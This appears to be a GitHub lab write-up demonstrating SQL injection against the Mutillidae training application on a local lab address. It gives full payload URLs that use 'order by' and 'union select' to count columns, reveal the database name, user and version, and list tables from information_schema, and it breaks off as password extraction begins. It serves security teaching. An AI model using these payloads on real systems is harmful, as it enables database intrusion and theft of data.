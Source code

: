 The browser url of this info page need to be modified with the url as below:
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27order%20by6%23&password=vino1234&user-info-php-submit-button=View+Account+Details
![Screenshot 2024-04-30 113349](https://github.com/Vinothini1711/sqlinjection/assets/144300204/777b08d3-3bad-4997-baa3-4b932313b69d)

After adding the order by 6 into the existing url , the following error statement will be obtained:
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![Screenshot 2024-04-30 113535](https://github.com/Vinothini1711/sqlinjection/assets/144300204/e41236a5-5cb9-4a46-aed5-2489f03dd850)

 As it is having 5 columns the query worked fine and it provides the correct result

![Screenshot 2024-04-30 113735](https://github.com/Vinothini1711/sqlinjection/assets/144300204/722bdabe-a704-4e18-8ace-80ee5a4c61b0)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![Screenshot 2024-04-30 113926](https://github.com/Vinothini1711/sqlinjection/assets/144300204/975cf64a-6c77-4cff-91fa-888a6f921aad)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![Screenshot 2024-04-30 114053](https://github.com/Vinothini1711/sqlinjection/assets/144300204/c822f6b0-e577-4e22-81a7-fbf79967db36)
 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,database(),user(),version(),5%23&password=vino1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-04-30 114538](https://github.com/Vinothini1711/sqlinjection/assets/144300204/35af072e-0fc-4617-8c4c-c53dd480212f)
![Screenshot 2024-04-30 114523](https://github.com/Vinothini1711/sqlinjection/assets/144300204/687da22d-2fc0-4bfd-bc3f-f77a23a0b0e9)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=vino1234&user-info-php-submit-button=View+Account+Details
![Screenshot 2024-04-30 115954](https://github.com/Vinothini1711/sqlinjection/assets/144300204/775331d9-f935-436a-87e1-6deb568bc918)


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.
